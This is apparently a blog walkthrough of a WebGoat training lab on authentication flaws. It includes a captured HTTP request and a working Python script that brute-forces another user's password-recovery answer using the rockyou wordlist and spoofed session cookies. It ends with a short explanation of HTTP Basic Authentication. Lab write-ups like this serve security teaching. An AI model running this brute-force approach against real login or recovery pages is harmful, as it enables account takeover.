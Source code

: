 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 4"
date:   2017-01-24 19:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Authentication Flaws: Forgot Password
Instructions:

- Users can retrieve their password if they can answer the secret question properly. There is no lock-out mechanism on this 'Forgot Password' page. Your username is 'webgoat' and your favorite color is 'red'. The goal is to retrieve the password of another user. 

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_4/landing-page.jpg">

So we have two hints that are going to help us solve this challenge. The first is on the login page, and says "See the OWASP admin if you do not have an account". The second hint for this challenge is in the phrase "no lock-out mechanism". Sounds like we're going to need to brute-force the admin's favorite color!

So first we navigate to the admin's Forgot Password page, and intercept a test request

```
POST /WebGoat/attack?Screen=64&menu=500 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=64&menu=500
Cookie: JSESSIONID=C1702A9FE913D04E2F177203213F9149; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

Color=blue&SUBMIT=Submit
```

Now that we have a template request for our brute-forcer, it's time to break out everyone's favorite scripting language (or at least mine), Python, and write ourselves a handy-dandy brute-force script.

{% highlight python %}
import sys
import requests

wordlist_paths = [
	"long_long_path_to_dir/rockyou.txt",
]


def main():
	wordlist = []
	print "[+] Populating the wordlist ..."
	for wordlist_path in wordlist_paths:
		print "	[*] Populating from list: {}".format(wordlist_path.split("/")[-1])
		with open(wordlist_path, "r") as wordlist_file:
			word_data = wordlist_file.read()
			wordlist += word_data.splitlines()
	print "	[*] Checking that wordlist was populated"
	if  len(wordlist) == 0:
		print "[-] Wordlist was not populated... Exiting"
		sys.exit(1)
	print "[+] Wordlist populated successfully"

	headers = {
		"user-agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0"
	}
	cookies = dict(JSESSIONID="C1702A9FE913D04E2F177203213F9149",acopendivids="swingset,jotto,phpbb2,redmine",acgroupswithpersist="nada")

	for index,word in enumerate(wordlist):
		print ("[*] Attempt {} | Pass: {}".format(index, word))
		payload= {"Color":word,"SUBMIT":"Submit"}
		r = requests.post("http://192.168.56.101/WebGoat/attack?Screen=64&menu=500", params=payload, headers=headers, cookies=cookies)
		if r.status_code == 200:
			if "congratulations" in r.text.lower():
				print ("[+] SUCCESS! Password is: {}".format(word))
				sys.exit(0)
		else:
			print ("error: {}".format(r.text))
			sys.exit(1)

main()

{% endhighlight %}

So instead of opting for a truly naive brute-force approach, I decided to go with a wordlist. Specifically the "rockyou.txt" list. It has an enormous list of some of the most common passwords in it, which include colors. The way this script works is by parsing each guess from the .txt wordlist file and passing it to a properly formatted request to the Forgot Password request URL. The script maintains headers and cookies to (semi) convincingly spoof the browser. The script then checks the lowercase-cast response for the string "congratulations", which has been in every challenge so far as a flag for correct guess. 

Let's see if it works!

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_4/rocked-you.jpg">

rocked.txt

# Basic Authentication
This lesson is broken on v5.4 (or at least my implementation of it), but it covers the Basic Authentication protocol. Basic Authentication is a simple method for enforcing access controls on server resources. The basic logical flow is as follows:

1. User requests a resource from the server
* I would like this page
2. Server responds with HTTP 401 Unauthorized
* I don't know who you are, or if you can have that
3. User sends request with Authorization header
* Authorization: Basic ```base64(user:passwd)```
4. Server sends response according to authorization status

It is important to remember that in HTTP everything is transmitted in cleartext, so this does not prevent anyone from stealing login credentials. HTTPS should be used in production systems.